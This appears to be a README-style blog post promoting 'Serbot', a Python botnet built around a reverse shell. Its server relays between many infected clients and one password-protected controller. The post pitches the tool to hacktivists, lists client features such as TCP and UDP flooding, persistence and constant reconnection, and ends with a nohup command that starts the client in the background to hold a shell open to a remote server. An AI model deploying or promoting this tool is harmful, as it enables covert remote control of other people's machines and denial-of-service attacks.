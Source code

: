 Hello everyone,

![alt tag](https://dotcppfile.files.wordpress.com/2014/11/rsz_1rsz_serbot.png)

Serbot is hot, keep reading Lol.

So, lets just get to the point, I’ve showed you [Awrs](http://dotcppfile.wordpress.com/2014/11/03/awrs-advanced-clientserver-windowslinux-python-reverse-shell/) and what it’s capable of, considered as one of the best Reverse Shells I’ve decided to Update Awrs and create Serbot and no, it’s not what you think Lol.

Serbot is an advanced version of Awrs where the Server can be managed by 1 Controller at a time.
######Example:
Server hosted on 15.48.158.15 and accepts up to 100 clients through port 1567, accepts 1 Controller at a time through port 2357 and the Controller’s functions are protected with a password: “IAmAPassword”
Client 1 hosted on 86.58.157.25 connected to 15.48.158.15:1567
Client 2 hosted on 78.459.17.35 connected to 15.48.158.15:1567
Controller running on my own computer connected to the Server on 15.48.158.15:2357 using the valid password “IAmAPassword”

In Serbot’s case, the Server also plays the role of a Bridge between the Clients and the Controller. This should sum things up. There’s a lot of benefits out of this now that’s for sure. A team of Researches or Hacktivists can now interact with all their clients using their Controllers, they don’t have to worry about portforwading, reverse shell’s stability and speed etc and they’re all sharing everything they have control on in one place.

In Serbot, everything was dealt with, your Server will never crash nor will your Clients no matter what, check the features list below for more info:

#####Server:
1. Linux/Windows Version.
1. Multi Handler. Can handle multiple connections all at once.
1. Bridge. Plays also the roll of a Bridge between the Clients and the Controller.
1. The Controller’s connection requires a plain text password, it’s not the best but it’s more than enough when it comes to keeping “l337 hax0rz b0t tak30v3r” away.
1. Accepts only 1 Controller at a time.
1. Kicks the Controller after 10 mins. This was added just in case someone forgot his Controller on which won’t allow other controllers to connect (since the Server only accepts 1 controller at a time).
1. Uses a very small amount of CPU and RAM when running.
1. Fast and Stable.

#####Client:
1. Linux/Windows Version.
1. TCP Flood.
1. UDP Flood.
1. You’ll never lose your shell. (Commands with No Output, Wrong Commands and Interactive Programs won’t kill your shell)
1. Never closes and is always trying to connect to the Server.
1. Can handle any command properly, such as the cd command.
1. Always gets back a response. (Command Output or Simple Client response)
1. Uses a very small amount of CPU and RAM when running.
1. Fast and Stable.

#####Controller:
1. Linux/Windows Version.
1. Handles all commands perfectly.
1. Handles any stupidity (KeyboardInterrupts, empty commands, etc) perfectly.
1. Uses a very small amount of CPU and RAM when running.
1. Easy user interface.
1. Fast and Stable.

This list isn’t enough but that’s all that I can think of right now. If you want to know how stable Serbot is then you have to try and code something similar to it Lol because then you’ll know that it handles everything you’re facing when it comes to bugs, errors, commands etc…

You simply have to remove the “#!/usr/bin/env python2″ at the top of every script to get this up and running on windows.

#####Extra:
If you’re trying to activate the Client threw ssl, shell or web shell then you have to run the Client.py in another process in the background or else your shell will dive into an endless loop and the best way to do that in Linux would be using nohup.

######Example:
nohup python client.py 15.48.158.15 1567 /dev/null &

Greetings to Team Prophetic, Chaoshackerz and all the followers of https://dotcppfile.wordpress.com/,
That’s all for today,
dotcppfile.
